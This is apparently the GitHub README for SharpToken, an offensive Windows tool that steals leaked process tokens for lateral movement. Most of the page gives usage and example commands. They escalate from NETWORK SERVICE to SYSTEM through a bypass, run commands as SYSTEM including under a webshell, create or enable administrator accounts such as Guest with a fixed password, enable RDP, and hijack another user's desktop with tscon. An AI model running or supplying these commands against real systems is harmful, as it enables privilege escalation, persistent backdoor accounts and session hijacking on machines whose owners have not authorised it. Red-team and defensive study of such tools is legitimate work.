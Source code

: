 # SharpToken


During red team lateral movement, we often need to steal the permissions of other users. Under the defense of modern EDR, it is difficult for us to use Mimikatz to obtain other user permissions, and if the target user has no process alive, we have no way to use "OpenProcessToken" to steal Token.


SharpToken is a tool for exploiting Token leaks. It can find leaked Tokens from all processes in the system and use them. If you are a low-privileged service user, you can even use it to upgrade to "NT AUTHORITY\SYSTEM" privileges, and you can switch to the target user's desktop to do more without the target user's password. ..

![image](https://user-images.githubusercontent.com/43266206/188081018-8717b066-1143-48b8-b62b-31360316cce1.png)


## Usage

```
SharpToken By BeichenDream
=========================================================

Github : https://github.com/BeichenDream/SharpToken

If you are an NT AUTHORITY\NETWORK SERVICE user then you just need to add the bypass parameter to become an NT AUTHORIT\YSYSTEM
e.g.
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami" bypass


Usage:

SharpToken COMMAND arguments



COMMANDS:

        list_token [process pid]        [bypass]

        list_all_token [process pid] [bypass]

        add_user    <username> <password> [group] [domain] [bypass]

        enableUser <username> <NewPassword> [NewGroup] [bypass]

        delete_user <username> [domain] [bypass]

        execute <tokenUser> <commandLine> [Interactive] [bypass]

        enableRDP [bypass]

        tscon <targetSessionId> [sourceSessionId] [bypass]


example:
    SharpToken list_token
    SharpToken list_token bypass
    SharpToken list_token 6543
    SharpToken add_user admin Abcd1234! Administrators
    SharpToken enableUser Guest Abcd1234! Administrators
    SharpToken delete_user admin
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami" bypass
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true bypass
    SharpToken tscon 1




```

## Elevated Permissions

In addition to the usual Token stealing privilege enhancement, SharpToken also supports obtaining Tokens with integrity through Bypass

If you are an NT AUTHORITY/NETWORK SERVICE user and you add the bypass parameter, SharpToken will steal System from RPCSS, that is, unconditional NT AUTHORITY\NETWORK SERVICE to NT AUTHORITY\SYSTEM 

![image](https://user-images.githubusercontent.com/43266206/205461409-0b17af46-00f5-4d68-9a16-a2edd76e67ab.png)


## ListToken

Enumerated information includes SID, LogonDomain, UserName, Session, LogonType, TokenType, TokenHandle (handle of Token after Duplicate), TargetProcessId (process from which Token originates), TargetProcessToken (handle of Token in source process), Groups (group in which Token user is located)

```
SharpToken list_token
```

![image](https://user-images.githubusercontent.com/43266206/176751244-dd8f8899-59ec-48e5-9bee-464c0e146573.png)

## Enumerate Tokens from the specified process

```
SharpToken list_token 468
```

![image](https://user-images.githubusercontent.com/43266206/176753494-3c6df1cb-5d14-4b36-aa61-ca68a8c38009.png)



## Get an interactive shell

```
execute "NT AUTHORITY\SYSTEM" cmd true
```

![image](https://user-images.githubusercontent.com/43266206/176751714-c7edb21c-f0be-4794-a14f-be4a7b1fdf61.png)

## Get command execution results (executed under webshell)

```
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
```

![image](https://user-images.githubusercontent.com/43266206/176751980-dd9413f4-1a4d-4cb0-8ba2-5e0b9ccb2eed.png)


## Create an admin user with the stolen token

```

SharpToken add_user admin Abcd1234! Administrators

```

## Enable an admin user with the stolen token


```
    SharpToken enableUser Guest Abcd1234! Administrators
```

## Delete a user with a stolen Token

```
    SharpToken delete_user admin
```

## Use the stolen Token to switch to the target's desktop


Where 1 is the target user's desktop and 2 is the desktop we want to receive

```
    SharpToken tscon 1 2
```


## Reference

https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html

https://github.com/decoder-it/NetworkServiceExploit

https://github.com/FSecureLABS/incognito

https://github.com/chroblert/JCTokenUtil
